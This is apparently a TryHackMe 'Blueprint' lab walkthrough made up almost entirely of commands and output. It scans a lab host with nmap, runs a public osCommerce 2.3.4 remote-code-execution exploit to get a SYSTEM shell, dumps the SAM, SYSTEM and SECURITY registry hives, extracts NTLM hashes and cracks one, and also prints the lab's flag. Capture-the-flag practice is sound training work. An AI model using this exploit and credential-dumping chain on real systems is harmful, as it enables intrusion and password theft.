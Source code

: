 
#tryhackmelabs #laboratorio 

https://tryhackme.com/r/room/blueprint?ref=blog.tryhackme.com

```
nmap -Pn -sV -O --open -p- 10.10.236.29 
```

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC

```

```
http://10.10.236.29:8080/
```

```
searchsploit osCommerce 2.3.4
```

```
searchsploit -m 50128
```

```
python3 50128.py http://10.10.236.29:8080/oscommerce-2.3.4/catalog/
```

```
whoami
```

```
RCE_SHELL$ whoami
nt authority\system
```

```
net users
```
```
Administrator            Guest                    Lab 
```

```
type C:\Users\Administrator\Desktop\root.txt.txt
```
```
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```


```
reg.exe save HKLM\SAM sam.bak
```

```
reg.exe save HKLM\SYSTEM system.bak
```

```
reg.exe save HKLM\SECURITY security.bak
```

http://10.10.236.29:8080/oscommerce-2.3.4/catalog/install/includes/

```
samdump2 system.bak sam.bak
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```
https://crackstation.net/
```
30e87bf999828446a1c1209ddde4c450
```
```
googleplus
```

